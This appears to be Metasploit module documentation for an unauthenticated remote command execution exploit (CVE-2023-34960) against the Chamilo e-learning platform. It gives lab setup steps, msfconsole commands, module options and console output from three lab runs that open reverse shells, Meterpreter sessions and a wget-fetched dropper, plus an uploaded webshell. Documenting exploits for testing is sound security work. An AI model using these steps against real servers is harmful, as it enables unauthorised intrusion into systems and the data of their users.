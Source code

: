 ## Vulnerable Application
`Chamilo` is an e-learning platform, also called Learning Management Systems (LMS).
This module exploits an unauthenticated remote command execution vulnerability that affects Chamilo versions `1.11.18`
and below. See [CVE-2023-34960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34960).
Due to a functionality called `Chamilo Rapid` to easily convert PowerPoint slides to courses on Chamilo,
it is possible for an unauthenticated remote attacker to execute arbitrary commands at OS level using a malicious SOAP
request at the vulnerable endpoint `/main/webservices/additional_webservices.php`.

Read this [article](https://attackerkb.com/topics/VVJpMeSpUP/cve-2023-34960) on attackerkb.com for more details.

This module has been tested against Chamilo 1.11.18 on Ubuntu Linux 22.04 with PHP 7.4

### Installation
Instructions for a Chamilo installation on Ubuntu 22.04:
1. Download and install Ubuntu 22.04 server on VirtualBox (follow these [instructions](https://linux.how2shout.com/how-to-install-ubuntu-22-04-server-on-virtualbox/)).
2. Download and install LAMP on Ubuntu 22.04 server (follow these [instructions](https://linux.how2shout.com/2-ways-to-install-lamp-server-on-ubuntu-22-04-20-04/)).
3. Download Chamilo releases [here](https://github.com/chamilo/chamilo-lms/releases).
4. Follow installation instructions [here](https://11.chamilo.org/documentation/installation_guide.html#1._Pre-requisites).

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/chamilo_unauth_rce_cve_2023_34960`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > options

Module options (exploit/linux/http/chamilo_unauth_rce_cve_2023_34960):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The Chamilo endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                        local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generat
                                        ed if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
```
## Options

### TARGETURI
The uripath to the `Chamilo` web application. Default set is to `/`.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.47
[+] Deleted cfLzNvTgdlp.php
[*] Meterpreter session 23 opened (192.168.201.10:4444 -> 192.168.201.47:42220) at 2023-07-28 20:29:19 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command - cmd/unix/reverse_bash
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 1
target => 1
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 24 opened (192.168.201.10:4444 -> 192.168.201.47:32810) at 2023-07-28 20:30:48 +0000

uname -a
Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Ubuntu 22.04 Linux Dropper - linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 2
target => 2
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/hexZf4ppmqBlG
[*] Client 192.168.201.47 (Wget/1.21.2) requested /hexZf4ppmqBlG
[*] Sending payload to 192.168.201.47 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.47
[*] Meterpreter session 25 opened (192.168.201.10:4444 -> 192.168.201.47:55508) at 2023-07-28 20:32:02 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.47
OS           : Ubuntu 22.04 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/chamilo/main/inc/lib/ppt2png
meterpreter >
```

## Limitations
No limitations.
